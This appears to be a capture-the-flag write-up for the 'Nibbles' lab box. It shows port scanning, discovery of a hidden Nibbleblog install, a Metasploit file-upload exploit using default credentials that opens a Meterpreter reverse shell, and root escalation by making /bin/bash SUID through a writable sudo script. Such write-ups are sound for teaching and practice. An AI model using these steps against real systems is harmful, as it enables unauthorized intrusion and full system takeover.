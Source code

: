 # Nibbles

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.144    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:33 EDT
Nmap scan report for 10.129.85.144
Host is up (0.0093s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### NIbbleblog RCE

Visiting port 80 reveals nothing, until you read the comments:

```markup
$ curl http://10.129.85.144/                
<b>Hello world!</b>














<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

<figure><img src="../../../.gitbook/assets/image (170) (2).png" alt=""><figcaption></figcaption></figure>

Based on the Nibbleblog Github Repo (which is no longer continued), I found that we can access `/README` to view the version used.

```
$ curl http://10.129.85.144/nibbleblog/README
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
<TRUNCATED>
```

There are RCE exploits for this, and I'm going to use`msfconsole` to exploit it. In specific, I want to use the `multi/http/nibbleblog_file_upload` module.&#x20;

```
set RHOSTS <ip>
set LHOST <my ip>
set TARGETURI /nibbleblog
set USERNAME admin # default creds
set PASSWORD nibbles # default creds
exploit
```

This would spawn us a Meterpreter shell.

<figure><img src="../../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Writeable Sudo Script

We can check `sudo` privileges:

```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

There is no script there, so we can create our own that makes `/bin/bash` an SUID binary.

```
$ sudo /home/nibbler/personal/stuff/monitor.sh             
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

Then, we can easily get `root`.&#x20;

<figure><img src="../../../.gitbook/assets/image (167) (3).png" alt=""><figcaption></figcaption></figure>
